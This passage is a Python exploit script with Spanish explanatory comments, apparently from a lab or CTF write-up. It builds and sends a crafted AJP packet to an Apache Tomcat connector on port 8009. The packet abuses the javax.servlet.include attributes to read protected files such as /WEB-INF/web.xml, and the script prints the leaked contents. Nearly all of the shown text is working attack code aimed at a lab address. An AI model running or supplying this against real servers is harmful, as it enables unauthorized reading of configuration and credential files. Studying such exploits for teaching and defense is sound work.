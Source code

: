 ```python
    body += pack_string("localhost")         # Host remoto
    body += pack_string("localhost")         # Nombre del servidor
    body += struct.pack("!H", 80)            # Puerto del servidor
    body += b"\x00"                          # No es SSL

    # Enviamos unas cuantas cabezeras HTTP falsas, que tomcat tambien espera:
    body += struct.pack("!H", 2)
    body += pack_string("host") + pack_string("localhost")
    body += pack_string("user-agent") + pack_string("Mozilla/5.0")

    # Con estos atrivutos enviados en binario, estariamos abusando de las variables que ya habíamos visto antes (javax.servlet.include), que son usadas para incluir contenido:
    body += b"\x0A" + pack_string("javax.servlet.include.request_uri") + pack_string("/")
    body += b"\x0A" + pack_string("javax.servlet.include.path_info") + pack_string(path)
    body += b"\x0A" + pack_string("javax.servlet.include.servlet_path") + pack_string("/")
    body += b"\xFF"  # Con esto terminamos los atrivutos

    # Las cabezeras AJP siempre comienzan por b"\x12\x34" seguidas del tamaño del paquete, asi que lo definimos para luego enviar el paquete:
    ajp_header = b"\x12\x34" + struct.pack("!H", len(body))
    packet = ajp_header + body

    sock.sendall(packet)

    # Mediante un bucle While, recibimos la respuesta he interpretamos los mensajes AJP Binarios, la dividimos entre lo que sirve y lo que no, y la parseamos.
    while True:
        header = sock.recv(4)
        if len(header) < 4:
            break

        magic, length = struct.unpack("!HH", header)
        data = sock.recv(length)

        if data[0] == 3:
            chunk_len = struct.unpack("!H", data[1:3])[0]
            print(data[3:3+chunk_len].decode(errors="ignore"), end="")
        elif data[0] == 5:
            break

    sock.close()
    print("\n[+] Fin de respuesta.")

# Puedes cam biar estos valores a tu disposicion:
HOST = "172.17.0.2"
PORT = 8009
TARGET_FILE = "/WEB-INF/web.xml"

send_forward_request(HOST, PORT, TARGET_FILE)
```
